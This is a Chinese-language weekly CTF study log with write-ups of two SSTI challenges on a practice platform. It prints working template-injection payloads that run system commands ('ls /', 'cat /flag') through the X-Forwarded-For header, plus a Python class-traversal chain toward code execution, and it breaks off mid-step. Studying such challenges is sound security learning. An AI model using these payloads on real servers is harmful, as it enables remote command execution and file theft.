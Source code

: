 # 2.24~3.2 WEEK1

## 概况

主要刷了nssctf上的ssti题



## 部分wp

### web11

![image-20250227215646220](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250227215646220.png)



观察到该页面底部写着build with smarty，再结合提示，可以猜出这大概是ssti模板注入。又发现api usage里写着get xff，所以用bp抓包，修改一下xff头，写入{{2*2}}

![image-20250227215728096](C:\Users\lenovo\Desktop\24-aye-hoyosei\image\image-20250227215728096.png)

经过测试，发现存在ssti注入，故payload：

X-Forwarded-For:{{system("ls /")}}

X-Forwarded-For:{{system("cat /flag")}}

回显得到flag



------

### ez_SSTI

get传参，name={{2*2}}，回显的结果为4，显然存在ssti注入

输入：`?name={{''.__class__}}`

得到回显：<class 'str'>，由此可知当前类为str

输入：`?name={{''.__class__.__mro__}}可以查看str类的调用顺序`

回显为：(<class 'str'>, <class 'object'>)

输入：`?name={{''.__class__.__base__}}`

得到回显：<class 'object'>，同调用mro方法，由此可知str的父类是object



输入：`?name={{''.__class__.__base__.__subclasses__()}}`

或`?name={{''.__class__.__bases__[0].__subclasses__()}}`

或`?name={{''.__class__.__mro__[1].__subclasses__()}}`，查看object基类的所有子类

得到回显：
